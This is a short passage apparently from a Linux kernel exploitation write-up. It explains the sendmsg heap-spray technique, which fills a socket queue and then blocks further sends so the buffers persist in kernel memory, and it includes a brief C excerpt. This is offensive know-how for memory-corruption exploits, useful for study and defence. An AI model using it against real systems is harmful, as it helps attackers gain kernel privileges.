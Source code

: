 ![proc_3.png](/assets/images/proc_3.png)

## sendmsg spray

sendmsg is a syscall in which we can send and receive buffers from user to/from kernel land. It can be useful for performing a heap spray, we just have to block the buffer so it is not freed when sent. To achieve this we must: fill the receive buffer. When we do this, in the next stage is to send messages without setting the noblock flag (MSG_DONTWAIT), therefore they will be left waiting, blocked in the heap to be handled.

```C
131 // Fill the queue
132 while (sendmsg(thread->pair[0], &mhdr, MSG_DONTWAIT) > 0);

...

151 /* This will block */
152 if (sendmsg(thread->pair[0], &mhdr, 0) < 0) {
153	perror("[-] sendmsg");
154	goto fail;
155 }
```
